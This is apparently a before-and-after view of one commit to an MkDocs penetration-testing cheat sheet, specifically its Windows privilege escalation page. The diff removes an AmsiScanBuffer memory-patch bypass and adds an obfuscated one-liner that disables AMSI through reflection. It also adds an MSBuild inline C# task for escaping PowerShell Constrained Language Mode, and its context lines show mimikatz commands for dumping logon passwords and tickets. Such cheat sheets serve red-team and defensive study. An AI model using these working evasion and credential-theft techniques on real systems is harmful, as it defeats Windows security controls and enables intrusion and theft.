

Before and after one commit to TheProtyro/protyro-cheatsheet, an MkDocs documentation site: the page built from docs/Post-Exploitation/Privilege Escalation/Windows.md, in a window 1280 px wide and 1400 px high, scrolled down 6356 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7224 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update AMSI bypass & escape CLM PowerShell

````diff
--- a/docs/Post-Exploitation/Privilege Escalation/Windows.md
+++ b/docs/Post-Exploitation/Privilege Escalation/Windows.md
@@ -292,34 +292,9 @@
 
 #### AMSI bypass
 
-* https://badoption.eu/blog/2023/07/15/divideconqer.html
 
-```
-$Win32 = @"
-using System;
-using System.Runtime.InteropServices;
-public class Win32 {
-    [DllImport("kernel32")]
-    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
-    [DllImport("kernel32")]
-    public static extern IntPtr LoadLibrary(string name);
-    [DllImport("kernel32")]
-    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
-}
-"@
-
-Add-Type $Win32
-
-$k = [Win32]
-$a = "axmxsxix.xdxlxlx".Replace("x","")
-$LoadLibrary = $k::LoadLibrary($a)
-$b= "AxmxsxixSxcxaxnxBxuxfxfxexrx".Replace("x","")
-$Address = $k::GetProcAddress($LoadLibrary, $b)
-$p = 0
-$k::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
-$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
-$x = [System.Runtime.InteropServices.Marshal]
-$x::Copy($Patch, 0, $Address, 6)
+```powershell
+$a=[Ref].Assembly.GetTypes();$a | %{$b=$_; $count=0; $tmp=($_.Name).ToCharArray().ToInt32($null); $tmp | %{$count+= $_;}; if($count -eq 923){$c=$b}};$d=$c.GetFields('NonPublic,Static');$d | %{$e=$_; $count=0; $tmp=($_.Name).ToCharArray().ToInt32($null); $tmp | %{$count+= $_;}; if($count -eq 1167){$f=$e}};$o=1;while($o -lt 8){Start-Sleep -Milliseconds ($o.toInt32($null)*100);$o++};$g=$f.GetValue($null);[IntPtr]$x=$g;[Int32[]]$y=@(0);$cop=[System.Runtime.InteropServices.Marshal];$i=1;while($i -lt 5){Start-Sleep -Milliseconds ($i.toInt32($null)*100);$i++};$cop::Copy($y, 0, $x, 1);
 ```
 
 #### Add admin account Windows
@@ -374,3 +349,58 @@
 mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
 mimikatz.exe "privilege::debug" "sekurlsa::tickets" "exit"
 ```
+
+#### Escape PowerShell CLM
+
+```csharp
+<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
+  <Target Name="MSBuild">
+   <MSBuildTest/>
+  </Target>
+   <UsingTask
+    TaskName="MSBuildTest"
+    TaskFactory="CodeTaskFactory"
+    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
+     <Task>
+     <Reference Include="System.Management.Automation" />
+      <Code Type="Class" Language="cs">
+        <![CDATA[
+
+            using System;
+            using System.Linq;
+            using System.Management.Automation;
+            using System.Management.Automation.Runspaces;
+
+            using Microsoft.Build.Framework;
+            using Microsoft.Build.Utilities;
+
+            public class MSBuildTest :  Task, ITask
+            {
+                public override bool Execute()
+                {
+                    using (var runspace = RunspaceFactory.CreateRunspace())
+                    {
+                      runspace.Open();
+
+                      using (var posh = PowerShell.Create())
+                      {
+                        posh.Runspace = runspace;
+                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
+
+                        var results = posh.Invoke();
+                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
+
+                        Console.WriteLine(output);
+                      }
+                    }
+
+                return true;
+              }
+            }
+
+        ]]>
+      </Code>
+    </Task>
+  </UsingTask>
+</Project>
+```
````
